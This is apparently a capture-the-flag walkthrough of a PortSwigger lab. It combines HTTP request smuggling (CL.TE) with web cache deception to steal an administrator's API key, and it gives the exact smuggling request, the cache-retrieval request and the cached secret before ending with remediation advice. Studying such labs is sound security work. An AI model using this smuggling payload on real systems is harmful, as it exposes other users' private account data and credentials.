







## Challenge Overview
* **Challenge name**: Exploiting HTTP request smuggling to perform web cache deception
* **Category**: HTTP Request Smuggling
* **Level**: Expert
* **Objective**: Perform a request smuggling attack such that the next user's request causes their API key to be saved in the cache. Then retrieve the victim user's API key from the cache and submit it as the lab solution.

---

## 1. Fundamental Concepts

Web Cache Deception via HTTP Request Smuggling represents one of the most elegant, stealthy, and devastating attack primitives in modern web security. While classical web attacks often focus on code injection (such as Cross-Site Scripting or SQL Injection), this vulnerability manipulates the architectural interaction between caching proxies and backend application servers. By inducing request framing desynchronization (CL.TE) on a shared upstream connection, an adversary coerces the front-end cache into misclassifying private, authenticated dynamic content as a public static asset, subsequently storing victim secrets in the public cache for trivial exfiltration.

### 1.1. Core Distinction: Web Cache Poisoning vs. Web Cache Deception

A frequent point of confusion among security researchers is distinguishing between **Web Cache Poisoning** and **Web Cache Deception**. Although both weaponize the caching tier, their threat models, data flows, and objectives are polar opposites:

| Criterion | Web Cache Poisoning (Lab 16) | Web Cache Deception (Lab 17) |
| :--- | :--- | :--- |
| **Primary Objective** | Distribute malicious payload to other users (XSS, redirect, malware). | Exfiltrate private, sensitive data belonging to a targeted victim. |
| **Direction of Data Flow** | Attacker Payload → Web Cache → Innocent Visitors. | Victim Sensitive Response → Web Cache → Attacker Exfiltration. |
| **Victim Role** | Passive consumer executed by poisoned cache content. | Authenticated target whose session credentials generate the cached secret. |
| **Cache Key Manipulation** | Attacker forces malicious response to map to a public asset key (e.g. `tracking.js`). | Attacker forces victim's private profile response to map to a public asset key. |

### 1.2. The CL.TE Request Smuggling Primitive
* **Specification Precedence:** Under HTTP/1.1 specifications (RFC 7230 §3.3.3), if a request contains both `Content-Length` (CL) and `Transfer-Encoding` (TE) headers, the `Transfer-Encoding` header MUST take precedence. Vulnerabilities arise when intermediate proxies and backends diverge in standard adherence.
* **Boundary Desynchronization:** In the CL.TE topology, the front-end reverse proxy parses the request boundary using `Content-Length`, while the upstream backend server parses the stream using `Transfer-Encoding: chunked`. By supplying a terminating chunk (`0\r\n\r\n`) early within the body, the backend concludes Request #1, leaving the remaining bytes stranded in its TCP receive buffer as an unauthenticated request prefix.

### 1.3. Web Cache Mechanics & The Static Cacheability Paradigm
* **Cache Key Composition:** Edge caches evaluate incoming requests against a deterministic **Cache Key**—conventionally composed of HTTP Method, Host header, and Request Path (e.g., `GET 0ac00...net /resources/js/tracking.js`).
* **Static Asset Heuristics:** To minimize origin load, proxies enforce static caching heuristics: requests requesting resources with static extensions (`.js`, `.css`, `.svg`, `.png`) or paths prefixed with `/resources/` are classified as publicly cacheable and saved for a predetermined TTL (e.g., `Cache-Control: max-age=30`, tracked via the `Age` header).
* **The Origin-Proxy Decoupling Flaw:** Crucially, edge proxies typically determine cacheability based on the URI requested in the front-end transaction, rather than deeply inspecting the semantics of the backend response body. If the backend responds to what the proxy thinks was a static request, the proxy commits that response to the static cache key.

> [!IMPORTANT]
> **ARCHITECTURAL ACHILLES HEEL:** In Web Cache Deception via Request Smuggling, the front-end proxy believes it is fetching a harmless, public static script (`/resources/js/tracking.js`), while the backend server—blinded by request smuggling—is actually executing an authenticated request to the victim's private profile (`/my-account`). The proxy stores the victim's private secrets under the public script's cache key!

---

## 2. Attack Model & Architecture

The attack model relies on a multi-stage request desynchronization pipeline involving three entities: the Attacker, the Front-End Reverse Proxy & Cache, and the Upstream Backend Application Server, alongside an authenticated Victim (the administrative bot).

### 2.1. Attack Workflow & Data Flow Diagram

```text
[Attacker]                         [Front-End Proxy & Cache]                  [Back-End Server]
    │                                          │                                      │
(1) │── CL.TE Smuggle Request ────────────────>│                                      │
    │   POST / HTTP/1.1                        │                                      │
    │   Content-Length: 40                     │                                      │
    │   Transfer-Encoding: chunked             │── (Forwards entire 40 bytes) ───────>│
    │                                          │                                      │ (Parses chunk '0' -> End Req 1)
    │   0\r\n\r\n                              │                                      │ (Stranded in TCP Buffer:
    │   GET /my-account HTTP/1.1               │                                      │  GET /my-account HTTP/1.1
    │   abc: tuki                              │                                      │  abc: tuki)
    │                                          │                                      │
(2) │                                [Victim / Admin Bot]                             │
    │                                          │                                      │
    │                                          │── GET /resources/js/tracking.js ────>│
    │                                          │   Cookie: session=ADMIN_SESSION      │ (Concatenates to stranded prefix:
    │                                          │                                      │  GET /my-account HTTP/1.1
    │                                          │                                      │  abc: tukiGET /resources/js...
    │                                          │                                      │  Cookie: session=ADMIN_SESSION)
    │                                          │                                      │
    │                                          │<── Returns Admin Account HTML ───────│ (Executes /my-account as Admin!
    │                                          │    [CACHE ENGINE STORES RESPONSE]    │  Contains Admin API Key)
    │                                          │    Key: /resources/js/tracking.js    │
    │                                          │                                      │
(3) │── GET /resources/js/tracking.js ────────>│                                      │
    │<── HTTP/2 200 OK (CACHE HIT!) ───────────│                                      │
    │    [HTML containing Admin API Key!]      │                                      │
```

### 2.2. Failure Analysis & Root Cause Breakdown
1. **Ambiguous Protocol Parsing:** The front-end proxy accepts ambiguous HTTP/1.1 framing containing conflicting `Content-Length` and `Transfer-Encoding` headers instead of rejecting the malformed frame with HTTP 400 Bad Request.
2. **Unsafe TCP Pipeline Reuse:** The front-end maintains a persistent, multiplexed backend connection pool that pipelines subsequent requests from different, mutually untrusted users over the exact same TCP socket without state hygiene.
3. **Heuristic Cache Key Assignment:** The front-end cache assumes that any response arriving in response to a `/resources/js/tracking.js` request is indeed JavaScript code and safe for public distribution, ignoring the fact that the backend returned an authenticated HTML document containing sensitive session data.

---

## 3. Vulnerability Exploitation

The vulnerability was methodically validated and exploited using Burp Suite Professional. The attack methodology comprises four sequential phases: reconnaissance of caching behavior, baseline inspection of the target endpoint, verification of request pipelining desynchronization, and cache deception execution.

### 3.1. Phase 1: Cache Behavior Reconnaissance on Static Resources
To locate a suitable cache deception gadget, network traffic was inspected for static assets loaded by application pages. The asset `/resources/js/tracking.js` was identified as an ideal target.

A baseline GET request was dispatched via Burp Repeater using HTTP/2. The initial response returned `HTTP/2 200 OK` with headers `Cache-Control: max-age=30`, `Age: 0`, and `X-Cache: miss`, confirming that the front-end cache actively manages this resource with a 30-second TTL:



A second request issued within the 30-second window yielded an immediate `HTTP/2 200 OK` response with `Age: 18` and `X-Cache: hit`, verifying that the front-end cache successfully stores and re-serves this resource from memory:



### 3.2. Phase 2: Sensitive Endpoint Baseline Analysis
The target application provides an authenticated portal at `/my-account`. Authenticating using non-privileged baseline credentials (`wiener:peter`) revealed that the endpoint renders the account username and an API Key within a structured `<div>` container:

```http
GET /my-account HTTP/2
Host: 0ac0006104a4378f81f6079400520066.web-security-academy.net
Cookie: session=z3xoosuAfnli76d2qTMlGfKcUeyUdMSk

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
...
<div id="account-content">
    <p>Your username is: wiener</p>
    <div>Your API Key is: nlNQJQsDdlAKsZa4BECV8x9nLtFRwvuG</div>
</div>
```



### 3.3. Phase 3: Constructing & Verifying the CL.TE Smuggle Prefix
To exploit the front-end / backend desynchronization, a POST request was configured in Burp Repeater under HTTP/1.1 with "Update Content-Length automatically" unchecked.

The payload was structured to deliver a chunked terminator (`0\r\n\r\n`) followed by an incomplete `GET /my-account` prefix terminated with an open arbitrary header (`abc: tuki`):

```http
POST / HTTP/1.1
Host: 0ac0006104a4378f81f6079400520066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
abc: tuki
```

* **Byte Calculation:**
  * Length of `0\r\n\r\n` = 5 bytes.
  * Length of `GET /my-account HTTP/1.1\r\n` = 26 bytes.
  * Length of `abc: tuki` = 9 bytes.
  * Total body length = 5 + 26 + 9 = **40 bytes** (precisely matches `Content-Length: 40`).



The front-end proxy evaluates `Content-Length: 40` and forwards the entire 40 bytes. The backend server evaluates `Transfer-Encoding: chunked`, halts at chunk size 0, and returns HTTP 200 OK for the `POST /` transaction. The remaining 35 bytes (`GET /my-account HTTP/1.1\r\nabc: tuki`) remain stranded in the backend TCP pipeline buffer.

To confirm desynchronization, a follow-up request was sent on the connection. The backend parsed the unauthenticated stranded prefix, recognized an unauthenticated attempt to access `/my-account`, and returned `HTTP/1.1 302 Found` redirecting to `/login`:



### 3.4. Phase 4: Weaponizing Web Cache Deception & Exfiltrating Admin Secrets
Having validated both the cache TTL (30s) and the request smuggling primitive, the full exploit was executed against the victim administrative bot:

1. **Step 1:** The attacker sends the CL.TE smuggling request to pipeline the `GET /my-account` prefix onto the shared backend TCP connection.
2. **Step 2:** The victim bot periodically navigates the application, dispatching a request for the static resource `/resources/js/tracking.js` carrying its high-privilege session cookie (`Cookie: session=...`).
3. **Step 3:** The backend server concatenates the victim's request line and headers onto the stranded prefix. The backend executes `GET /my-account HTTP/1.1` under the administrator's authenticated session!
4. **Step 4:** The backend responds with the administrator's profile HTML page containing their confidential API key. The front-end cache receives this response for the victim's `/resources/js/tracking.js` request and commits the entire HTML document to the cache key of `/resources/js/tracking.js`!
5. **Step 5:** The attacker issues a standard `GET /resources/js/tracking.js` request. The front-end serves the cached entry: an HTTP 200 OK response containing the administrator's full account page!

```http
GET /resources/js/tracking.js HTTP/2
Host: 0ac0006104a4378f81f6079400520066.web-security-academy.net
...

HTTP/2 200 OK
...
<div id="account-content">
    <p>Your username is: administrator</p>
    <div>Your API Key is: XNcSw9zjPgEXRaNHZQzERzQPylbmadIU</div>
</div>
```



### 3.5. Phase 5: Solution Submission & Verification
The harvested API key belonging to the administrator account (`XNcSw9zjPgEXRaNHZQzERzQPylbmadIU`) was submitted through the PortSwigger Lab interface:




---

## 4. Remediation & Prevention

Mitigating Web Cache Deception via Request Smuggling necessitates a defense-in-depth security strategy across the transport proxy layer, the caching engine, and application endpoints.

### 4.1. Reverse Proxy & Transport Layer Hardening
* **Strict Framing Validation:** Configure reverse proxies to enforce strict RFC 7230 §3.3.3 compliance. If an incoming HTTP/1.1 request contains both `Content-Length` and `Transfer-Encoding`, the proxy MUST immediately abort the transaction and reject it with HTTP 400 Bad Request.
* **End-to-End HTTP/2 Architecture:** Transition front-end to back-end communications to native HTTP/2 or HTTP/3. Binary framing eliminates whitespace ambiguity, delimiter discrepancies, and chunk parsing desynchronizations entirely.
* **Backend Connection Isolation:** Configure reverse proxies to isolate upstream TCP connections on a per-client or per-session basis, preventing cross-tenant request pipelining and shared socket pollution.

### 4.2. Caching Tier Policy Enforcement
* **Explicit Origin Authority:** Never determine cacheability solely based on file extensions (`.js`, `.css`) or static URI paths. Edge caches MUST strictly inspect origin response headers and refuse to cache responses that lack explicit `Cache-Control: public` directives.
* **Honor Private & No-Store Directives:** The cache layer MUST strictly honor `Cache-Control: no-store, no-cache, private` and `Pragma: no-cache` directives emitted by dynamic backend endpoints.
* **Block Caching of Authenticated Responses:** Ensure the caching engine automatically blocks caching for any response containing a `Set-Cookie` header or authorization-dependent content, regardless of the requested URL.
* **MIME-Type Consistency Verification:** Enforce Content-Type validation between request expectations and response bodies. For example, if a client requests a `.js` file, the cache must reject storing responses whose Content-Type is `text/html`.

### 4.3. Application-Level Defenses
* **Defensive Header Injection:** All sensitive endpoints, such as `/my-account`, profile settings, and payment portals, must explicitly emit strict caching headers: `Cache-Control: no-cache, no-store, must-revalidate, private`.
* **SameSite Cookie Attribute Hardening:** Adopt `SameSite=Strict` cookies to restrict the transmission of authentication tokens during cross-site navigations and unexpected asset fetches.
* **Sensitive Secret Masking:** Require secondary authentication (password re-prompt or short-lived token) prior to displaying or manipulating critical credentials such as API keys.
